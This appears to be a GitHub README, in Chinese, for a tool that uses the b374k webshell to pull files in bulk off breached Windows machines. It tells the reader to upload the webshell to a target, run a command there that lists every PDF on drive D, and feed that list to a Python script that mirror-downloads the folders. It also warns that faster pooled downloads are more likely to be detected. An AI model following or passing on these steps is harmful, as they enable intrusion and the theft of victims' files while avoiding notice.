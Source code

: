 # b374k_windows_download

## 使用
1. 基於windows拿到webshell上傳b374k_v2.3
2. 目標cmd執行 chcp 65001 | dir "D:\*.pdf" /b /s >> filepath.txt
3. 產出filepath.txt拖回本機 執行 python3 b374k2.3.py filepath.txt
4. 依序產出資料夾並把目標個資料夾資料鏡像下載
注意:pool可以加快下載，但較容易被發現